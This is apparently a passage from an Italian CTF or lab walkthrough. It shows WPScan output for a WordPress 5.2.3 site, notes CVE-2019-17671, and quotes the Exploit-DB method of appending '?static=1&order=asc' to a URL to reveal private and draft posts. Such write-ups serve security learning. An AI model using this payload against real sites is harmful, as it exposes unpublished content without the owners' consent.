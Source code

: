 ```bash

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <=============================================================================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Fri Oct 27 03:06:58 2023
[+] Requests Done: 173
[+] Cached Requests: 5
[+] Data Sent: 42.631 KB
[+] Data Received: 203.885 KB
[+] Memory used: 259.922 MB
[+] Elapsed time: 00:00:16
```

Wpscan rileva che la versione di WP è 5.2.3:
Ci sono 32 vulnerabilità conosciute in questa versione ma in base all'indizio di prima ci contriamo su questa

```bash
 [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
```

Dovrebbe permetterci di vedere le bozze a cui si face riferimento del post.

[Qui](https://www.exploit-db.com/exploits/47690)possiamo vedere l'exploit

```md
So far we know that adding `?static=1` to a wordpress URL should leak its secret content

Here are a few ways to manipulate the returned entries:

- `order` with `asc` or `desc`
- `orderby`
- `m` with `m=YYYY`, `m=YYYYMM` or `m=YYYYMMDD` date format


In this case, simply reversing the order of the returned elements suffices and `http://wordpress.local/?static=1&order=asc` will show the secret content:
```

